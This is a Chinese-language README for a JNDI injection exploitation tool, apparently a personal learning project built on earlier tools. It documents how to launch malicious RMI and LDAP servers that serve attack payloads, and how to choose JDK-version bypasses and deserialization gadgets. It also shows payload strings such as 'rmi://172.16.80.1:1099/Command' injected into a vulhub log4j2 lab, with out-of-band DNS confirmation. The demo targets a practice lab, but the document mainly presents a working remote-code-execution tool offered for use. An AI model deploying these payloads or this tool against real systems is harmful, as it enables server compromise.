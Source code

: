 ## JNDI EXP——基于JNDI服务的Java漏洞利用工具

本项目是Java小白对前期学习内容的一个梳理和总结，并最终输出落地的小成果。

本项目是基于 su18 师傅的 [JNDI](https://github.com/su18/JNDI) 以及 welk1n 师傅的 [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit/)，在他们的基础上拓展了小部分高版本绕过的姿势，以及采用了配置文件和命令行结合的方式来输入数据，本质上是一个轮子项目，但是自己学到了模块化集成与开发，知识点归纳的能力，这就足够了。



## 功能

工具启动后可以看到提供 RMI 和 LDAP 两种服务，根据用户命令行输入来启动指定的服务。同时后台有 Jetty 内置 web服务器用来接收处理重定向请求，返回攻击向量

![image-20230122220242899](Readme/image-20230122220242899.png)

-s 参数指定使用的具体服务类型 rmi/ldap

**JNDI-RMI 提供的功能如下:**

![image-20230122161954927](Readme/image-20230122161954927.png)

-e 参数指定攻击利用选项，参考 su18 师傅对基本的利用做了归纳；-p 指定服务监听端口；-l 指定 Jetty 服务器监听的端口； -s 指定服务所在主机 ip；-o 指定了攻击向量的类型（低版本高版本绕过方式）

**JNDI-LDAP 提供的功能如下：**

![image-20230122162344708](Readme/image-20230122162344708.png)

与前面类似，不过这里 -g 参数用于在高版本绕过 codebase 限制时选择指定的反序列化利用gadget

另外，搭配配置文件来指定具体的内容

![image-20230122162757279](Readme/image-20230122162757279.png)

其中最后的 echo 选项指定回显方式

## 安装使用

```git
git clone 
java -jar JNDIEXP-1.0-SNAPSHOT-all.jar -h
```



## 使用展示

这里以 vulhub 的 log4j2 靶场为例，对相关功能进行展示

![image-20230122163253208](Readme/image-20230122163253208.png)

- JNDI-RMI 攻击：

  ![image-20230122220512367](Readme/image-20230122220512367.png)

生成 payload：`rmi://172.16.80.1:1099/Command`

结合log4j2的payload注入靶场中对应的字段

![image-20230122163950313](Readme/image-20230122163950313.png)

![image-20230122220712178](Readme/image-20230122220712178.png)

可以看到工具成功进行了回响，但是服务端无回显内容，查看OOB回显的DNS平台成功回显

![image-20230122220841680](Readme/image-20230122220841680.png)

- JNDI-LDAP 攻击：

![image-20230122220907501](Readme/image-20230122220907501.png)

生成 payload: `ldap://172.16.80.1:1099/Command`

结合log4j2的payload注入靶场中对应的字段

![image-20230122220953913](Readme/image-20230122220953913.png)

![image-20230122221001787](Readme/image-20230122221001787.png)

同样在dns平台得到回显

![image-20230122221117197](Readme/image-20230122221117197.png)



## 技术细节

架构如下：

![image-20230122224954960](Readme/image-20230122224954960.png)

回显技术以及通用的利用技术参考了 su18 师傅的实现。

命令行处理模块利用了 picocli 这个命令行组件，收集齐所有参数。通过 -s 参数指定的服务类型分发给对应的服务端，启动并生成payload，处理发过来的请求。

这里命令行组件可能存在线程问题，导致 ldap 服务端这里在发起端口监听之后程序就自动退出了，我这里作了简单的线程延时的缓解 `Thread.sleep(100000);`

rmi 和 ldap 服务汇总了常见的利用思路：rmi 低版本远程类加载、高版本（8u131）通过本地工厂类加载（tomcat 和 groovy）；ldap 低版本远程类加载、高版本（8u191）通过传递反序列化链达到 RCE，具体细节可以参见：

- https://racerz-fighting.github.io/2023/01/11/JNDI/



字节码生成模块使用了 idea 中的插件 `ASM Bytecode Outline` 生成，利用反射作粘合剂。su18师傅提到的未完成中提到使用 AdviceAdapter 的 onMethodEnter、onMethodExit更优雅的生成代码。我在这里做了尝试，但是没有成功，主要遇到如下几个问题：

onMethodEnter 是基于 `visitCode` 方法进行封装的，所以插入字节码时要先弄清楚方法的起始点在哪里，这里在对构造函数进行处理时很容易乱；其次onMethodEnter 只允许对局部变量表当中的内容作修改，而不能改变操作数栈当中的状态，所以实现起来难度蛮大的



## 参考

https://github.com/su18/JNDI

https://github.com/welk1n/JNDI-Injection-Exploit/

https://javasec.org/